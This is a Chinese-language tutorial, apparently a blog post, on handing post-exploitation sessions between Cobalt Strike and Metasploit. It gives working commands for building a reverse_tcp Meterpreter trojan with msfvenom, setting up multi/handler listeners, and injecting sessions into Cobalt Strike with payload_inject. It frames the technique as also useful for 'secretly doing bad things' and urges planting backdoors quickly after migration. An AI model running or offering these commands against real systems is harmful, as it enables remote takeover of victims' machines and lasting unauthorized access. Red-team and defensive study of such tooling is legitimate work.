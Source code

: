 # 1. 前言

在日常渗透测试或者是你偷偷干坏事的时候，可能会发现，CS确实是一个强大的后渗透工具，但是奈何CS很多关于漏洞的功能都是只能检测，但是不能攻击，所以需要CS与MSF互相联动起来，这里我就利用一个永恒之蓝漏洞来

# 2. CS联动MSF

CS联动MSF，主要是将CS的会话移交给MSF。

## 2.1. 案例测试

CS上各种插件只能漏洞检测，并不能对漏洞进行利用，所以可以将CS的会话迁移给MSF来进行利用，这里前期的操作就是不介绍了。

这里还需要注意CS4.5好像联动有问题，这里建议换成4.7.2以上，同时还有一个问题就是，本地测试使用4.7也没什么问题，但是如果在实际的攻防中最好使用4.7.2以上版本，4.7是存在xss漏洞的，容易被反制。

### 2.1.1. CS设置联动监听器

这里设置联动监听器，一定要按照下面的配置来配置，名字一定要记录下来，后面会使用到。

![image-20230727140237862](assets/image-20230727140237862.png)

### 2.1.2. CS设置联动MSF会话

这里截图不方便，我就口述一下，首先按照上面的步骤将监听器创建出来，然后选择一个上线的会话，点击新建会话，然后选择的监听器选择刚刚创建的MSF。

当然也可以使用命令来实现，命令后面的msf其实就是刚刚设置监听器的名称。

```
spawn msf
```

![image-20230727140518883](assets/image-20230727140518883.png)

### 2.1.3. MSF设置监听

按照下面的输入，也可以看到会话是成功转移到msf上了。

```
use exploit/multi/handler
set payload windows/meterpreter/reverse_http   ##这里一定不要输入错误，你上面监听器是http，那么这里就是http
set lhost 0.0.0.0
set lport 3010                  ##端口根据你自己的修改，我这里是3010
run
```

![image-20230727140613326](assets/image-20230727140613326.png)

![image-20230727140742351](assets/image-20230727140742351.png)

# 3. MSF联动CS

MSF联动CS，主要是将MSF的会话转移到CS上。

## 3.1. 案例测试

这里就从头来一下吧，利用MSF生成木马，让其上线然后在转交给CS。

### 3.1.1. MSF生成木马

这里生成一个木马，然后上传到目标主机上，主要要注意这个IP地址和端口别设置错了或者忘记了。

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=XXXX.XXX.XXXX.XX LPORT=4444 -f exe -o 123.exe
```

![image-20230728085304783](assets/image-20230728085304783.png)

### 3.1.2. 设置监听

这里设置的监听，就是将上面的木马，再执行后能够建立会话。

```
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost 0.0.0.0
set lport 3000
exploit
```

![image-20230728090432466](assets/image-20230728090432466.png)

### 3.1.3. CS设置监听

这里设置监听，由于是MSF主动去连接CS，所以这里设置反向连接即可。

![image-20230728090554601](assets/image-20230728090554601.png)

### 3.1.4. MSF转移会话

到转移会话这里，主要就是将MSF刚刚木马上线的会话迁移到CS上。

```
use exploit/windows/local/payload_inject //使用该模块可以将 Metasploit 获取到的会话注入到CS中
set payload windows/meterpreter/reverse_http //和cs监听器保持一致
set prependmigrate true     #可以不设置，但是端口不要和CS冲突了。
set DisablePayloadHandler true  #可以不设置
set lhost XXXX.XXX.XXX.XX    //CS的IP
set lport XXX   //CS上的listen端口
set session 1   //要转发的session
run 
```

![image-20230728090909791](assets/image-20230728090909791.png)

![image-20230728090844429](assets/image-20230728090844429.png)

### 3.1.5. 查看上线

这里可以看到是成功上线了。

![image-20230728090937756](assets/image-20230728090937756.png)

# 4. 其它

这里主要就是介绍如何迁移会话，迁移会话后尽量在条件允许的情况快，尽快建立起相应的后门，比如你MSF迁移到CS，迁移后尽快上传CS的木马，免得掉线或者不注意MSF被关闭了。

至于上线操作，想必应该都会。